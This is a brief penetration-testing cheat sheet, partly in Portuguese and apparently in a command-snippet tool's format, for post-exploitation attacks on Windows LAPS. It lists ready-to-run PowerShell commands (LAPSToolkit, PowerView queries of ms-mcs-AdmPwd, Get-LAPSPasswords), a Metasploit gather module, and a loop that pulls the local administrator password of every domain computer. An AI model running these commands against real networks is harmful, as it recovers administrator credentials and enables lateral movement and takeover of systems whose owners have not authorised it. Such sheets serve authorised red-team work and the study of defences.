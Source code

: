 # LAPS

% laps, password

## obter senhas laps
#plateform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER  
```
Get-LAPSPasswords -DomainController <ip_dc> -Credential <domain>\<login> | Format-Table -AutoSize
```

## obter lista de computadores laps
```powershell
Import-Module .\LAPSToolkit.ps1
Get-LAPSComputers
```

## identifica a lista do grupo que pode manipular dados do SAM
```powershell 
Import-Module .\LAPSToolkit.ps1
Find-LAPSDelegatedGroups
```

## obter a senha do laps utilizando powerview
## powerview get laps password
```powershell
Get-DomainObject <computer> -Properties "ms-mcs-AdmPwd",name
```

## obter a senha do laps utilizando metasploit

```
use windows/gather/credentials/enum_laps
```

## obter as senhas de todas as maquias.
#plateform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
foreach ($objResult in $colResults){$objComputer = $objResult.Properties; $objComputer.name|where {$objcomputer.name -ne $env:computername}|%{foreach-object {Get-AdmPwdPassword -ComputerName $_}}}
```
